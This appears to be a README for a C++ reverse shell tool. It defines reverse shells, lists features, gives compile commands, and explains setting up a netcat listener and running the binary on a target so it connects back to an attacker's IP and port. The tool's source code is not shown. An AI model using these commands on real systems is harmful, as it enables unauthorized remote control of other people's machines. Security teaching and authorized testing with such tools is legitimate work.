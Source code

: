 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.
 
## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

```bash

sudo apt-get install g++
Compile the Code:

```bash

g++ -o reverse_shell reverse_shell.cpp
```
For Windows, you might use:

```bash

    cl /EHsc reverse_shell.cpp
```
- How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    ``` bash
    nc -lvp 4444
   ```

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

```bash

./reverse_shell <attacker_ip> <port>
```
For example:

```bash

    ./reverse_shell 192.168.1.10 4444
```

  Establish Connection:
  Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

## Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
